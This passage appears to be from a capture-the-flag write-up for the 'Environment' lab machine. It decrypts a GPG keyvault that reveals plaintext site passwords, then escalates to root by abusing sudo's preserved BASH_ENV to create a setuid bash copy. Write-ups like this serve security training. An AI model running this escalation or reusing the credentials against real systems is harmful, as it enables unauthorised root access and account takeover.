 Now we're able to decrypt `keyvault.gpg`

```bash
www-data@environment:~$ gpg -d keyvault.gpg 
gpg: WARNING: unsafe permissions on homedir '/tmp/.dasian/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> m*************!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

The `ENVIRONMENT.HTB` entry lets us login as `hish`

## Root
As `hish` we can run a command with `sudo`

```bash
sudo -l
```

```bash
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

The `env_keep` flag preserves the `ENV` and `BASH_ENV` variables when running `/usr/bin/systeminfo`

According the [the docs](https://www.gnu.org/software/bash/manual/bash.html#index-BASH_005fENV){:target="_blank"}{:rel="noopener noreferrer"}, the `BASH_ENV` variable lets us specify a shell script to run before execution. Since we can run the command as `root`, we can essentially run any privileged command!

For this example I'll create a `bash` binary with the `suid` bit set to give us  a local `root` shell!

```bash
#!/bin/bash
cp /bin/bash /tmp/.dasian/bash
chmod +s /tmp/.dasian/bash
```

Make the script executable and set its path in the `BASH_ENV` variable

```bash
chmod +x suid-bash.sh
export BASH_ENV=/tmp/.dasian/suid-bash.sh
```

Run `systeminfo` to execute the script as `root`

```bash
sudo /usr/bin/systeminfo
```
